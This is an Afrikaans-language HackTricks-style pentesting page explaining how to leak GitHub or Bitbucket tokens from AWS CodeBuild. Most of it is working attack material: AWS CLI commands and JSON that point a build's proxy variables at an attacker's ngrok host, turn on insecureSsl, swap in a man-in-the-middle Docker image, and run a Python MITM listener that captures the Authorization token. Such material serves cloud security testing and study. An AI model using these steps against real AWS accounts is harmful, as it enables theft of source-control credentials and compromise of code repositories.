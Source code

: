 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Herwin Github/Bitbucket Geconfigureerde Tokens

Eerst, kyk of daar enige bronbewyse geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentisering na byvoorbeeld Github in die rekening gestel is, kan jy **exfiltrate** daardie **toegang** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env veranderlikes `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Skep & Laai jou eie Docker MitM image op**
- Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL sertifikaat in te stel en **bou die docker image**.
- **MOET NIE `http_proxy` INSTEL NIE** om nie versoeke na die metadata eindpunt te onderskep nie.
- Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
- Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Stel die omgewing in**
- Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
- Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Stel die MitM proxy in jou gasheer in**

- Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.

4. **Voer die bou uit & vang die geloofsbriewe**

- Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** projekte het 'n instelling genaamd **`insecureSsl`** wat in die web versteek is en jy kan dit slegs vanaf die API verander.\
Deur dit in te skakel, kan Codebuild met die repository verbind **sonder om die sertifikaat** wat deur die platform aangebied word, te kontroleer.

- Eerstens moet jy die huidige konfigurasie opnoem met iets soos:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Dan, met die ingesamelde inligting kan jy die projekinstelling **`insecureSsl`** op **`True`** opdateer. Die volgende is 'n voorbeeld van my opdatering van 'n projek, let op die **`insecureSsl=True`** aan die einde (dit is die enigste ding wat jy moet verander van die ingesamelde konfigurasie).
- Boonop, voeg ook die omgewing veranderlikes **http_proxy** en **https_proxy** by wat na jou tcp ngrok wys soos:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Dan, voer die basiese voorbeeld uit [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in die poort aangedui deur die proxy veranderlikes (http_proxy en https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Deur HTTP-protokol~~

> [!TIP] > **Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**

'n Aanvaller met **verhoogde regte in 'n CodeBuild kan die Github/Bitbucket-token** wat geconfigureer is, lek of as regte via OAuth geconfigureer is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

- 'n Aanvaller kan die omgewing veranderlikes **http_proxy** en **https_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Verander dan die URL van die github-repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: `http://github.com/carlospolop-forks/TestActions`
- Voer dan die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort wat deur die proxy-variabeles (http_proxy en https_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Volgende, klik op **Bou die projek** of begin die bou vanaf die opdraglyn:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Uiteindelik sal die **akkrediteerings** in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Nou sal 'n aanvaller in staat wees om die token van sy masjien te gebruik, al die voorregte wat hy het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.

{{#include ../../../../banners/hacktricks-training.md}}
